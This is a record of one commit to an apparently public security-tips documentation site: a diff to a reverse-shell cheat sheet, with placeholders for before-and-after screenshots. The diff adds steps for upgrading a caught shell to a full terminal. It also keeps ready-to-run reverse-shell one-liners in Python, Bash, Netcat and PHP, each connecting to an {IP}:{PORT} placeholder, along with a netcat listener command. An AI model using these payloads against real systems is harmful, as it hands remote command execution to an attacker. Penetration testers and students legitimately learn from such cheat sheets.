

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/reverse-shell.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Add PTY shell to reverse-shell tips

````diff
--- a/docs/reverse-shell.md
+++ b/docs/reverse-shell.md
@@ -5,31 +5,47 @@ A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` valu
 with a couple `IP:port` the server can access. Then, on your local machine you open
 a listener with `netcat`:
 
+## On local machine
+To listen for an incoming connection and upgrade to a pty shell:
 ```bash
 nc -lvnp {PORT}
+
+# after the connection is established
+python -c 'import pty; pty.spawn("/bin/bash")'
 ```
 
-## Python
+Then, `Ctrl-Z` and type:
+```bash
+stty raw -echo
+```
+
+The console should be black, next foreground the shell with `fg` then
+reinitialize the terminal with `reset`.
+
+
+## On the remote server
+
+### Python
 ```bash
 python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"{IP}\\",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\'
 ```
 
-## Bash
+### Bash
 ```bash
 bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
 ```
 
-## Netcat
+### Netcat
 ```bash
 nc -e /bin/sh {IP} {PORT}
 ```
 
-## Java
+### Java
 ```java
 r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
 ```
 
-## PHP
+### PHP
 ```bash
 php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
 ```
````
